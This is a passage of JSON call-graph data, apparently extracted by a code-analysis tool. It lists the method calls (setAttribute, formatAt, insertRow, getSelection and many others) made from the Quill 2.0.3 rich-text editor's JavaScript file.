"calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "replaceWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formatAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "replaceWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "attach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "attach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "emitMount"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formatAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formatAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "highlight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "diff"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formatAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "html"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "code"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "optimize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "initListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "initTimer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "initListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "highlight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "attachUI"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "initTimer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "highlight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "highlight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "descendants"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "highlightBlot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "highlight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "highlight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "compose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "cellOffset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "row"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "rowOffset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "row"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "row"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "rowOffset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "table"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "row"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "row"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "table"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "checkMerge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "optimize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "optimize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "splitAfter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "optimize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "optimize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "rowOffset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "table"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "balanceCells"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "descendants"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "optimize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "cells"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "rows"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "deleteColumn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "descendant"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertColumn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "descendant"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formats"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertRow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "descendant"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "rows"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "listenBalanceCells"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "balanceTables"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "descendants"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "deleteColumn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getTable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "deleteColumn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "deleteRow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getTable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "deleteTable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getTable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "offset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getTable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertColumn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getTable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "cellOffset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertColumn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "rowOffset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertColumnLeft"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertColumn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertColumnRight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertColumn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertRow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getTable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "rowOffset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertRow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertRowAbove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertRow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertRowBelow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertRow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertTable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "updateContents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "balanceTables"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "listenBalanceCells"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "once"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "balanceTables"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addHandler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "attach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "query"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "hasAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "hasAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "focus"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "updateContents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "format"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getFormat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "toggle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "toggle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "createElement"}, 